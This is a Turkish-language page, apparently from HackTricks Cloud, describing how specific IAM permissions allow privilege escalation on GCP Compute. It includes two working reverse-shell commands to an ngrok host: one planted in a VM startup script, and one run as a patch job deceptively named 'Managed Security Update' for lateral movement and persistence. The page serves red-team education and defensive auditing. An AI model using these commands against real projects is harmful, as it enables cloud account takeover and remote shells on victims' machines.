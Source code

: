 # GCP - Compute Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Compute

GCP'deki Compute ve VPC (ağ) hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Önemli: Örneğin yeni kullanıcılar ve SSH anahtarları eklemek gibi, örneğin metadata'sını değiştirmeyi gerektiren tüm ayrıcalık yükseltme saldırılarını gerçekleştirmek için, **örneğe bağlı SA üzerinde `actAs` izinlerinizin olması GEREKİR**, SA zaten bağlı olsa bile!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Bu izinle, bir **örneğin** **metadata** bilgilerini **değiştirebilir** ve bir **kullanıcının yetkilendirilmiş anahtarlarını** değiştirebilir veya **sudo** izinlerine sahip **yeni bir kullanıcı oluşturabilirsiniz**. Bu nedenle, herhangi bir VM örneğine SSH ile bağlanabilir ve örneğin çalıştığı GCP Hizmet Hesabını çalabilirsiniz.\
Sınırlamalar:

* GCP Hizmet Hesaplarının VM örneklerinde varsayılan olarak **çok sınırlı bir kapsamı** olduğunu unutmayın.
* Giriş yapmak için **SSH** sunucusuyla **iletişim kurabilmeniz** gerekecek.

Bu izni nasıl istismar edeceğiniz hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Ayrıca, yeni bir başlangıç betiği ekleyerek ve örneği yeniden başlatarak bu saldırıyı gerçekleştirebilirsiniz:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Bu izin, **önceki izinle aynı ayrıcalıkları** belirli bir örnek üzerinde verir, tüm proje yerine. **Önceki bölümdeki aynı istismarlar ve sınırlamalar geçerlidir**.

### `compute.instances.setIamPolicy`

Bu tür bir izin, **önceki izinlerle kendinize bir rol vermenizi** ve bunları kötüye kullanarak ayrıcalıkları artırmanızı sağlar.

### **`compute.instances.osLogin`**

Eğer **OSLogin örnekte etkinse**, bu izinle sadece **`gcloud compute ssh [INSTANCE]`** komutunu çalıştırarak örneğe bağlanabilirsiniz. Örnekte **root ayrıcalıklarınız olmayacak**.

{% hint style="success" %}
Bu izinle VM örneği içinde başarılı bir şekilde giriş yapmak için, VM'ye bağlı SA üzerinde `iam.serviceAccounts.actAs` iznine sahip olmanız gerekir.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Eğer **OSLogin örnekte etkinse**, bu izinle sadece **`gcloud compute ssh [INSTANCE]`** komutunu çalıştırarak örneğe bağlanabilirsiniz. Örnekte **root ayrıcalıklarınız olacak**.

{% hint style="success" %}
Bu izinle VM örneği içinde başarılı bir şekilde giriş yapmak için, VM'ye bağlı SA üzerinde `iam.serviceAccounts.actAs` iznine sahip olmanız gerekir.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

**Atanmış bir Hizmet Hesabı ile sanal bir makine oluşturmak ve token'ı çalmak** mümkündür, böylece ayrıcalıkları artırabilirsiniz.

Bu yöntem için istismar betiği [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py) bulunabilir.

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Eğer **`osconfig.patchDeployments.create`** veya **`osconfig.patchJobs.exec`** izinleriniz varsa, bir [**yamanın işi veya dağıtımı**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) oluşturabilirsiniz. Bu, ortamda yanlamasına hareket etmenizi ve bir projedeki tüm hesaplama örneklerinde kod yürütme elde etmenizi sağlar.

Şu anda, örneğe bağlı SA üzerinde **`actAs` iznine** ihtiyacınız olmadığını unutmayın.

Bunu manuel olarak istismar etmek istiyorsanız, ya bir [**yamanın işi**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **ya da** [**dağıtım**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)** oluşturmanız gerekecek.**\
Bir yamanın işi için çalıştırın:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Bir yamanın dağıtımını yapmak için:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Araç [patchy](https://github.com/rek7/patchy) bu yanlış yapılandırmayı istismar etmek için geçmişte kullanılabiliyordu (ama şimdi çalışmıyor).

**Bir saldırgan bunu kalıcılık için de kötüye kullanabilir.**

### `compute.machineImages.setIamPolicy`

**Kendinize ek izinler verin** compute Image için.

### `compute.snapshots.setIamPolicy`

**Kendinize ek izinler verin** bir disk anlık görüntüsü için.

### `compute.disks.setIamPolicy`

**Kendinize ek izinler verin** bir disk için.

### Erişim Kapsamlarını Aşma

Bu bağlantıyı takip ederek bazı [**erişim kapsamlarını aşma fikirleri**](../) bulabilirsiniz.

### GCP Compute örneğinde Yerel Yetki Yükseltme

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referanslar

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
